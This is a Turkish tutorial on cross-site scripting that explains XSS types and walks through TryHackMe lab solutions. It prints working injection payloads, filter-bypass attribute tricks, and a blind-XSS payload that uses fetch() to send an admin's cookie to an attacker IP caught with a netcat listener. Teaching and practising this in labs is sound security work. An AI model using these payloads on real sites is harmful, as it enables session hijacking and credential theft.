# XSS (Cross Site Scripting)

XSS Türkçe karşılığı olarak Siteler Arası Komut Dosyası Çalıştırma olarak geçiyor. Kötü amaçlı kişiler tarafından oluşturulan JavaScript kodlarının hedefin tarayıcısında istemsizce çalıştırılması şeklinde ortaya çıkan bir zafiyet türüdür.

Cross-Site Scripting (XSS) zafiyeti, bir web uygulamasının kullanıcı girdilerini yeterince doğrulamadığı veya temizlemediği durumlarda ortaya çıkan bir güvenlik açığıdır. XSS saldırıları, kullanıcının çerezlerini çalmak, oturumlarını kaçırmak, zararlı yazılım yüklemek veya kullanıcıların tarayıcılarında başka kötü niyetli işlemler gerçekleştirmek için kullanılabilir.

XSS zafiyetinin farklı çeşitleri vardır.

* **Reflected XSS**

Kullanıcının kendi ekranında bir çıktı almasını sağlayan bir zafiyet türüdür. Örnek vermek gerekirse bir oyun sitesi düşünün. Bu oyun sitesinde arama kutucuğu bulunmakta. Arama kutusuna yazdığımız içerik ekranda ve url de görünmekte. Girilen değer ekrana kontrolsüz bir şekilde ekrana çıktı olarak verilmektedir.

<figure><figcaption></figcaption></figure>

Bu kodda form alanından gelen verinin zararlı bir içeriğe sahip olup olmadığı kontrol edilmeden $search değişkenine aktarılır.&#x20;

<figure><figcaption></figcaption></figure>

Atamasını gerçekleştirdiğimiz değişkenin boş olup olmadığı kontrol edilerek ekrana yansıtılır. Ayrıca GET global değişkenine göre bir atama gerçekleştirildiği için urlde görüyor olacağız.

```
examplegamingsite.com/?search=deneme
```

Zafiyetli bir kod nasıl olur görmüş olduk peki bunu nasıl tetikleriz? Daha önce XSS konusu ile ilgili araştırma yaptıysanız sürekli `<script>alert(1)</script>` payloadını görmüş olabilirsiniz. Bu payloadın amacı ekrana bir pop-up çıkarmak ve bu sayede input alanından ortaya çıkan bir zafiyetin olduğunu anlaşılmasını sağlamaktır.&#x20;

Zararlı bir kod yazıp input alanına girdiğimizde sadece bizi etkiler, eğer bu sitenin linkini hedef kişiye gönderip tıklamasını sağlayabilirseniz zararlı kodu hedef kişinin tarayıcısından çalıştırmış olursunuz.

* **Stored XSS**

Reflected XSS gibi input alanlarının güzel bir şekilde kontrol edilmemesinden ortaya çıkar. Adından da anlaşılacağı üzere kullanıcıdan alınan değerler bir veri tabanında depolanır.&#x20;

Örnek bir senaryo üzerinden anlatmak gerekirse, bir alışveriş sitesi düşünün. Her ürünün kendine özel bir yorum alanı olsun ve kullanıcılar buraya yorumlar ekleyebilsinler. Yorum olarak eklenen değerler bir veri tabanında saklanacak ve o ürünü görüntüleyen kişinin ekranına yansıtılacaktır.

Input kontrolleri yapılmamış bir input alanından kullanıcı zararlı kodunu veri tabanına iletebilir. Bu sayede ürünün yorumlarına bakmaya gelen normal kullanıcı zararlı kod eklenmiş yorum ile karşılaşıp Stored XSS'e maruz kalır.

Hacker kötü amaçlı kod ile, kullanıcıları başka bir siteye yönlendirebilir, kullanıcının oturum çerezini çalabilir.&#x20;

<figure><figcaption></figcaption></figure>

* DOM Based XSS

DOM, Belge Nesne Modeli anlamına gelir ve HTML ve XML belgeleri için bir programlama arayüzüdür. Programların belge yapısını, stilini ve içeriğini değiştirebilmesi için sayfayı temsil eder.&#x20;

<figure><figcaption></figcaption></figure>

DOM, HTML'in "haritalandırılmış hali" diyebiliriz, çünkü DOM, HTML belgesinin yapısını hiyerarşik bir şekilde temsil eder.

DOM tabanlı XSS, kullanıcı tarafından sağlanan verilerin doğrudan DOM içine enjekte edilmesi ve bu verilerin tarayıcıda istemci tarafında çalıştırılmasıyla oluşan bir güvenlik açığıdır.

Bu tür XSS saldırıları, geleneksel yolla sunucu tarafında gerçekleşen XSS saldırılarından farklı olarak tamamen istemci tarafında meydana gelir.

* **Blind XSS**

Blind XSS, Stored XSS mantığına çok benzer şekilde girilen input değerleri bir veri tabanında depolanır. Ama saldırganın bu payloadının çalışıp çalışmadığını doğrudan göremediği bir tür XSS saldırısıdır. Tekrardan örnek bir senaryo üzerinden gitmek gerekirse, iletişim sayfası olan bir web sitesinde girilen değerler admin panelinde bulunan bir sayfaya düşmektedir. İletişim sayfasında ki gerekli kontroller yapılmazsa, iletişim sayfasından admin paneline zararlı kodlar iletilebilir.

***

Bu konuları daha iyi anlamak için [Try Hack Me Intro to Cross-site Scripting](https://tryhackme.com/r/room/xss) odasından örnekler çözeceğim.

Payload, başka bir kullanıcının tarayıcısında veya bir web sitesindeki bir güvenlik açığını göstermek için konseptin kanıtı olarak yürütmek istediğimiz JavaScript kodudur. Payloadın, hedef web sitesinde JavaScript çalıştırabildiğimizi kanıtlamak için bir JavaScript uyarı kutusu açmaktan, web sayfasından veya kullanıcı oturumundan bilgi çıkarmaya kadar pek çok amacı olabilir.

### Lab 1

İlk laba baktığımızda bir input alanı karşımıza çıkıyor. Bu input alanı üzerinden alınan değer kaynak kodda da görüldüğü h2 taglerinin arasında ekrana yazdırır. Labın bizden istediği şey ise bir pop-up içerisinde "THM" yazısını ekrana bastırmamızı istiyorlar.

<figure><figcaption></figcaption></figure>

Kaynak kod kısmına baktığımızda girdiğimiz input h2 taglerinin arasına geldiği için taglerin kapatılmasına sonrasında kendi payloadımızı enjekte edebiliriz. Bunun öncelikle içinde bulunduğu h2 tagini `</h2>` yaparak kapatmamız gerekiyor. Sonrasında istediğimiz işlevi yapan payloadı yazıyoruz.

```
</h2><script>alert("THM")</script>
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

İlk labımızı geçmiş bulunmaktayız.

### Lab 2

İkinci laba baktığımızda yine aynı ekran karşılıyor bizi, bu sefer input alanına bir şey girdiğimizde şu şekilde ekranımıza yansımaktadır.

<figure><figcaption></figcaption></figure>

1.labda h2 taglerinin içinden çıkmaya çalışmıştık bu labda ise input taginin içinden çıkmamız gerekiyor.

Öncelikle `value=""`  özelliğinin içinden çıkmamız gerekiyor. Sonrasında input taginin içinden çıkmamız gerekiyor.&#x20;

```
"><script>alert("THM")</script>
```

Kullandığımız " (çift tırnak) sayesinde value özelliğinin içinde çıkmış oluyoruz ardından gelen > işareti ile input alanını sonlandırmış oluyoruz. Sonrasında input alanından çıktığımız için `<script>` tagleri arasında ekrana çıktı verebiliriz.

<figure><figcaption></figcaption></figure>

### Lab 3

Yine benzer bir sayfa ile karşılaşıyoruz bu sefer gönderdiğimiz yazı \<textarea> taglarının arasında karşımıza çıkıyor.&#x20;

<figure><figcaption></figcaption></figure>

Kaynak kod tarafında gördüğünüz üzere yazdığımız içeriğin `textarea` taglarının arasından çıkmamız lazım. Bunun için gireceğimiz input tag kapatma ile başlamalı, sonrasında ise istediğimiz payloadı yazacağız.

```
</textarea><script>alert("THM")</script>
```

<figure><figcaption></figcaption></figure>

### Lab 4

Yine benzer bir senaryo üzerinden ilerliyoruz. Bazı senaryolarda ve web sitelerinde bazı kelimeler, payloadlar filtrelenebiliyor. Labın mantığını anlamak için rastgele bir değer girip deneme yapalım.

<figure><figcaption></figcaption></figure>

Kaynak kodunda gördüğümüz gibi input alanından alınan değeri span etiketlerinin arasına yerleştiriyoruz. Manipüle etmemiz gereken kod parçası budur:

```
document.getElementsByClassName('name')[0].innerHTML='deneme';
```

Şu zamana kadar sürekli `<script>alert("THM")</script>` payloadını kullandık. Tekrardan deneyelim ve çıktıya bakalım.

<figure><figcaption></figcaption></figure>

Sağ taraftaki koda baktığımızda \</script> kısmını filtrelemiş ve bizim çıktımızda gözükmüyor. Bu durumlarda farklı payloadları denememiz gerekiyor. Github üzerinde farklı farklı [payload listeleri](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload/payload.txt) var buralardan payloadlara bakabilirsiniz.

Bu örnekte `` payloadını kullanacağım. Bu payloadın amacı src özelliğinde belirtilen adresten fotoğrafı alıp ekrana yansıtmaya çalışır. Eğer ekrana yansıtmaya çalıştığı fotoğrafta bir hata alırsa onError değeri devreye girer.

<figure><figcaption></figcaption></figure>

Gördüğünüz gibi girmiş olduğumuz payload işe yaradı. Farklı sitelerde farklı payloadlar çalışabilir. Filtreleme durumuna göre durum değişecektir.

### Lab 5

Tıpa tıp aynı senaryo mantığına sahip bir siteyle karşı karşıyayız. Deneme amaçlı bir girdi sağlıyoruz.

<figure><figcaption></figcaption></figure>

Kaynak kodunda gördüğümüz gibi girdiğimiz input değeri h2 taglerinin arasında yer almış durumda. Öncelikle bu h2 taglerinden kurtulmamız lazım. O yüzden öncelikle daha önceden açılmış oluşturulmuş h2 etiketini kapatmamız gerekiyor. Sonrasında da istediğimiz payloadı çalıştırabilir duruma geleceğiz.

```
</h2><script>alert("THM")</script>
```

Yukarıda gördüğümüz payloadı yazdıktan sonra şöyle bir çıktı alıyoruz.

<figure><figcaption></figcaption></figure>

Inputun arasına yazmama rağmen çıktı kısmında göremiyorum demek oluyor ki sistem script kelimesini filtreliyor. Bu durumda daha önce öğrendiğimiz başka bir payload vardı onu deneyelim.

```
</h2>
```

<figure><figcaption></figcaption></figure>

Bu payload işimizi görüyor ve bu labı da geçiyoruz.

### Lab 6

Diğer laba baktığımızda diğerlerinden biraz daha farklı duruyor.

<figure><figcaption></figcaption></figure>

Burada olan şey input alanına girdiğimiz fotoğrafın bize getirilip ekrana yansıtılmasıdır. Girdiğimiz input img taginin src özelliğinin olduğu yere yerleştirilir. İlk başta bu tagin içinden çıkmak aklınıza gelmiş olabilir. Bu durumu denemek için şu payloadı deneyebiliriz:

```
"><script>alert('THM');</script> 
```

<figure><figcaption></figcaption></figure>

Payloadı deneyip gönderdiğimizde ve kaynak koda baktığımızda < ve > karakterleri filtrelendiği için kaynak kodda karşımıza çıkmıyor. Eğer < ve > karakterlerini kullanmazsak içinde bulunduğumuz tagden de çıkamayız. Bu durumda img tagi içinde bulunan bazı özellikler ile XSS saldırısını gerçekleştirebiliriz.

Daha önce img taginde öğrendiğimiz bir özellik vardı onError. Ayrıca onError özelliğinin yanında onload isminde bir özellik ile de bu soruyu çözebiliriz.

Öncelikle onError özelliği ile soruyu çözelim. onError durumunun çalışması için img taginin src özelliğini yanlış bir değer vermemiz gerekiyor. Çünkü img tagi src olarak verdiğimiz resmin pathine ulaşmaya çalışır hata alınca onError özelliği çalışır.

```
asd" onError="alert('THM');
```

<figure><figcaption></figcaption></figure>

Şimdi ise onload özelliği ile soruyu çözelim. Bu özelliği resim yüklenirken çalıştırılacak olan bir fonksiyon gibi düşünebilirsiniz.

Fotoğraf yükleneceği için resimin pathi doğru yazılmalıdır.

```
/images/cat.jpg" onload="alert('THM');
```

<figure><figcaption></figcaption></figure>

İki farklı yolla son sorumuzu çözmüş olduk.

***

### Blind XSS

Blind XSS için şöyle bir senaryomuz var. Kullanıcıların girş yapıp adminlere destek mesajı attığı bir sayfada Blind XSS zafiyeti var. Bizden adminin cookie değerini çalmamız isteniyor. Bizden aldığı inputu kontrolsüz bir şekilde textarea taginin içine yazıyor. Eğer doğru payloadı yazarsak textarea taginden kurtulmuş oluyoruz.

<figure><figcaption></figcaption></figure>

Taglerden çıkabiliyoruz deneme amaçlı ekrana THM yazısı bastırmya çalışalım.

```
</textarea><script>alert('THM')</script>
```

Yukarıda gördüğümüz payload ile ekranda THM yazısını görebiliyoruz.

<figure><figcaption></figcaption></figure>

Şimdi alert ile ekrana çok rahat bir şekilde çıktı verebiliyoruz ama admin cookie değerini nasıl alacağız? Bu durum için adminin bize bağlanmasını sağlamamız lazım. Bize bağlanması içinde netcat denilen bir araca ihtiyacımız var. Sisteminizde netcat aracı yoksa `sudo apt install netcat` diyerek indirebilirsiniz.

İndirme işleminden sonra gelen istekleri dinlememiz lazım. Netcat aracımızı `nc -lvnp <port>` ile çalışmaya başlatıyoruz. \<port> kısmına istediğiniz bir port numarasını yazabilirsiniz ben 1234 portunu yazacağım.

Netcat 1234 portundan gelecek istekleri dinliyor ama hedefimizde olan admin hangi adrese istek atacağını bilmiyor daha o kısımları ayarlamadık. Öncelike THM odasına hangi IP ile bağlandığımızı öğrenmemiz lazım bunun için komut satırımıza `ifconfig` yazıyoruz. Ip adresini hangi cihaza bağlantı yapıldığını belirtmek için kullanacağız.

Bunun için şöyle bir payload kullanacağız:

```
</textarea><script>fetch('http://IP:PORT?cookie=' + btoa(document.cookie) );</script>
```

Bu payloadı açıklamak gerekirse öncelikle \</textarea> tagi ile textarea tagin içinden çıkıyor. Sonrasında verilen IP:Port adresine cookie parametresini base64 ile encode edip parametre olarak gönderiyor.

Ve netcat üzerinden dinleme yaparken adminin cookie değeri bize düşüyor.

<figure><figcaption></figcaption></figure>

Cevaba henüz ulaşamadık bize dönen değer base64 ile encode edildiği için decode işlemi yapmamız lazım. Decode ettikten sonra karşımıza bizden istenen değer çıkıyor ve soruyur bitiriyoruz.

```
staff-session=4AB305E55955197693F01D6F8FD2D321
```


> Bu yazı [*Yavuz Kuk*](https://www.linkedin.com/in/yavuzkuk/) tarafından hazırlanmıştır.